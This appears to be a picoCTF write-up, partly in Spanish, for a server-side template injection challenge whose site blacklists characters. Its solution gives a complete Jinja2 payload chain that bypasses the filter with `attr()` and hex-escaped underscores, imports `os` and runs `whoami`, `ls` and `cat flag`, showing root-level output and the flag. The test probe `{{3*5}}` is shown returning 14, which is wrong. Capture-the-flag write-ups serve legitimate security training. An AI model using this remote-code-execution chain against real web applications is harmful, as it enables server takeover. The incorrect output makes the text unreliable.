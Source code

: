 I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)
Additional details will be available after launching your challenge instance.
_______
## Hints
* Server Side Template Injection
* Why is blacklisting characters a bad idea to sanitize input?
_______
## Solución

```
Se trata de una vulnerabilidad de inyección de plantillas del lado del servidor.
Entrar a la página e introducir: 

{{3*5}}

	14

{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')
('whoami')|attr('read')()}}

	root


{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}

	__pycache__ app.py flag requirements.txt


{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}

	picoCTF{sst1_f1lt3r_byp4ss_7c3c6e7f}
	
```